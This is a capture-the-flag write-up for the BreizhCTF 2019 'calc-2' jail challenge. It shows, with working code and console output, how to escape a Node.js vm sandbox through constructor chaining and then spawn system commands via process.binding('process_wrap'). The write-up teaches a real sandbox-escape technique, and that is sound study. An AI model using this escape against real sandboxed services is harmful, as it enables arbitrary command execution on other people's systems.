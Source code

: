 ```yaml
---
title: BreizhCTF 2019 - calc-2
authors: dabi0ne
layout: writeup
ctf_url: https://www.breizhctf.com/
---
```

Solves: 0 / Points: 400 / Category: Jail

## Challenge description 
See challenge source code [here](/assets/calc2.js)

## Challenge resolution
Our goal is to execute a system command to obtain the flag.

### Step one: Escape from the vm
To escape from the vm we will use constructor of constructor to create an anonymous function with controlled body.

This is a simple example using Firefox JS console:
```js
>> this.constructor.constructor("alert(1)")
function anonymous()
>> this.constructor.constructor("alert(1)").toString()
"function anonymous(
) {
alert(1)
}"
```

Using this technique we can execute code outside vm context.
Indeed, the this object when it returned by calling constructor is not restricted to log function:
```js
>> log(this.constructor.constructor('return this')());
> EOF
[Function: anonymous]
Object [global] {
  global: [Circular],
  process:
   process {
     title: 'nodejs',
     version: 'v10.15.2',
.
.
.
  setImmediate:
   { [Function: setImmediate] [Symbol(util.promisify.custom)]: [Function] },
  setInterval: [Function: setInterval],
  setTimeout:
   { [Function: setTimeout] [Symbol(util.promisify.custom)]: [Function] } }
```

Comparing to the vm context:
```js
> log(this);
> EOF
{ log: [Function] }
```


### Step two: Execute a shell command

The process.mainModule of the script was cleaned so we didn't have access to "require" function:
```js
/* remove mainModule for better security */
process.mainModule = {};
```

However, we identified that the binding function is available on the object returned by the constructor:
```js
> log(this.proc = this.constructor.constructor('return this.process')());

binding: [Function: binding]
```
The binding function allows loading internal modules. 
Firstly we tried to read the flag from the file using the "fs" module:
```js
> log(this.constructor.constructor('return this.process.binding')()('fs')
```
Fail :( 

But we were able to list directories and identify flag's location:

```js
> log(this.constructor.constructor('return this.process.binding')()('fs').readdir('/home/guest', {}, "","", function (err, data) {data}));
```

After a tip from the challenge author: "you don't have child_process and it exec function, so write it"


So let's read nodejs source code on Github:

https://github.com/nodejs/node/blob/master/lib/internal/child_process.js

The outcome is that the child_process use an internal binding of process_wrap to execute commands by calling the spawn function: 

```js
const { Process } = internalBinding('process_wrap');

child.spawn({
    file: opts.file,
    args: opts.args,
    cwd: options.cwd,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!options.windowsVerbatimArguments,
    detached: !!options.detached,
    envPairs: opts.envPairs,
    stdio: options.stdio,
    uid: options.uid,
    gid: options.gid
});
```

Hence, we have to create a Process object and call it spawn function to execute system commands:

1 - Check if the binding doesn't fail: 
```js
> log(this.constructor.constructor('return this.process.binding')()('process_wrap'));
> EOF
{ Process: [Function: Process] }

```
2 - Instantiate a Process object:
```js
> log(this.proc_wrap = this.constructor.constructor('return this.process.binding')());
> log(this.Process = this.proc_wrap('process_wrap').Process);
> log(this.process = new Process());
```

3 - Call the spawn function with the good parameters:

```js
> log(this.env = this.constructor.constructor('return this.process.env')());
> log(this.mproc  = this.constructor.constructor('return this.process')());
> log(this.sot = this.constructor.constructor('return this.process.stdout')());
> log(this.sin = this.constructor.constructor('return this.process.stdin')());
> log(this.rc = process.spawn({file:'/home/guest/flag_reader',args:[],cwd:"/home/guest",windowsVerbatimArguments:false,detached:false,envPairs:this.env, stdio:[mproc.stdin, mproc.stdout, mproc.stderr]}));

> EOF

breizctf_flag{FORGOTTEN_FLAG}
```


